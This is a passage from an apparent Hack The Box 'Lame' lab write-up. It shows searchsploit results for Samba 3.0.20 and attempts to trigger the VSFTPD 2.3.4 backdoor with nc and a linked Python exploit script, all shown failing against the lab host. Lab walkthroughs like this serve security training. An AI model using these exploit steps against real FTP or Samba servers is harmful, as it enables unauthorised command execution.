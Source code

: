 So there is a possible backdoor command execution in FTP protocol

It is also a popular exploit when it comes to ```FTP Exploitation```

### Samba 3.0.20 exploit

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ searchsploit samba | grep 3.0.20
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                           | linux/remote/7701.txt
```

Here we have 2 possible exploits, but we don't want to overflow the SMB

We need a RCE, so we go for ```'Username' map script' Command Execution``` to exploit this version of SMB

## Gaining Access

### VSFTPD 2.3.4 manual exploit

This is a simple exploit that is being triggered with ```:)``` (Not smiley)

For more reference on this [exploit](https://www.exploit-db.com/exploits/49757)

Manual exploit [python script](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)

Trying manually without scripts,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER monish:)
331 Please specify the password.
PASS hackme
500 OOPS: priv_sock_get_result

┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.3 6200                                             
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```

No luck

Trying with scripts,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ python3 vsftpd.py                                              
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
                                                                      
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ python3 vsftpd.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
[!] Failed to connect to backdoor on 10.10.10.3:6200

┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.3 6200                                             
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```
